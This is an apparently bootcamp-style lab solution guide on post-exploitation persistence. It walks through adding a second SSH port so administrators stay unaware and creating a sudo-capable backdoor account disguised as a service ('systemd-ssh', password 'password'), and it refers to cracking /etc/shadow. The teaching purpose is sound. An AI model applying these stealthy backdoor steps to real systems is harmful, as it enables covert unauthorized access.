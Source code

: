 ## Solution Guide: Persistence

In the previous activity, you dumped the `/etc/shadow` file and cracked several passwords in it. In this activity, you added an additional port for the SSH service to listen on, then opened that port on the firewall. We don't want to change the original port, 22, because that would be a red flag for administrators. 

Finally, you created an account, added it to the sudoers group, and ensured it could SSH over the new port that you specified.

**Reminder**: Ensure that you are performing the activities on the target machine and not your own assessment machine! This means you should be SSH'd in, or have a reverse/Meterpreter shell into the target.

### Instructions 

1. On the target host, read the top 10 lines of the SSH config file, located at `/etc/ssh/sshd_config`, and identify the line where a port is specified.

     - `head /etc/ssh/sshd_config`

     ![A screenshot depicts the results of the command.](head.PNG)
   
2. Using Nano, edit the file to add an additional port, 10022. (You must `sudo` to do this.)

     - `sudo nano /etc/ssh/sshd_config`

	 ![A screenshot depicts the results of the command.](addport.PNG)

     - Due to this machine having limited services, you must restart the machine in order to restart the SSH service. Restart the machine via `sudo reboot`.

3. Now, create a new backdoor account. In order to remain inconspicuous, name this account so that it appears as if it's a service. Create a new account named "systemd-ssh", with the password "password", and then add it to the admin group. 

     - `sudo adduser systemd-ssh`

	 ![A screenshot depicts the results of the command.](adduser.PNG)

     - `sudo usermod -aG admin systemd-ssh`

4. Confirm that the new account works by SSHing from your machine to the target host over port 10022 as the new user you created.

     - `ssh systemd-ssh@ipaddress`


---
© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.



